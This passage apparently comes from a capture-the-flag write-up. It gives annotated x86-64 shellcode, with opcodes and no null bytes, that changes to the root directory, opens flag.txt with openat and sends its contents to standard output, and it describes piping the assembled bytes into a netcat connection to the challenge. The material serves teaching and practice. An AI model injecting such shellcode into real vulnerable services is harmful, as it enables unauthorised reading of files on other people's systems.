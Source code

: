 I think the code is pretty self explanatory. Reading through the [man
page](https://linux.die.net/man/2/openat) for `openat()`, we learn that we
need to use `AT_FDCWD` as the directory file descriptor to use the current
working directory. The numeric value of `AT_FDCWD` is `-100` as seen
[here](https://github.com/spotify/linux/blob/master/include/linux/fcntl.h#L35).

My final shellcode written in assembly can be seen below:

```  
0:   48 31 c0                xor    rax,rax                  ; rax = 0  
3:   48 31 db                xor    rbx,rbx                  ; rbx = 0  
6:   b3 2f                   mov    bl,0x2f                  ; rbx = "/"  
8:   50                      push   rax  
9:   53                      push   rbx  
a:   48 89 e7                mov    rdi,rsp                  ; rdi = address
of "/"  
d:   48 83 c0 50             add    rax,0x50                 ; rax = 80  
11:   0f 05                   syscall                         ; sys_chdir("/")  
13:   48 31 c0                xor    rax,rax                  ; rax = 0  
16:   48 bb 66 6c 61 67 2e    movabs rbx,0x7478742e67616c66   ; rbx =
"flag.txt"  
1d:   74 78 74  
20:   50                      push   rax  
21:   53                      push   rbx  
22:   48 31 ff                xor    rdi,rdi ; rdi = 0  
25:   48 c7 c7 9c ff ff ff    mov    rdi,0xffffffffffffff9c   ; rdi = -100  
2c:   48 31 d2                xor    rdx,rdx  
2f:   48 89 e6                mov    rsi,rsp                  ; rsi = address
of "flag.txt"  
32:   48 c7 c0 ff fe ff ff    mov    rax,0xfffffffffffffeff   ; rax = -257
(avoid null byte)  
39:   48 f7 d8                neg    rax                      ; rax = -rax  
3c:   0f 05                   syscall                         ;
openat(-100,"flag.txt", 0, 0)  
3e:   50                      push   rax                      ; push fd to
stack  
3f:   48 31 c0                xor    rax,rax                  ; rax = 0  
42:   48 83 c0 28             add    rax,0x28                 ; rax = 40  
46:   48 31 ff                xor    rdi,rdi                  ; rdi = 0  
49:   48 ff c7                inc    rdi                      ; rdi = rdi + 1  
4c:   5e                      pop    rsi                      ; rsi = fd  
4d:   48 31 d2                xor    rdx,rdx                  ; rdx = 0
(offset)  
50:   4d 31 d2                xor    r10,r10                  ; r10 = 0
(count)  
53:   49 83 c2 1e             add    r10,0x1e                 ; r10 = 30
(count)  
57:   0f 05                   syscall                         ; sendfile(1,
fd, 0, 30)  
```

Finally we assemble the shellcode, save it to a file, then redirect it into
our netcat command to receive the flag!
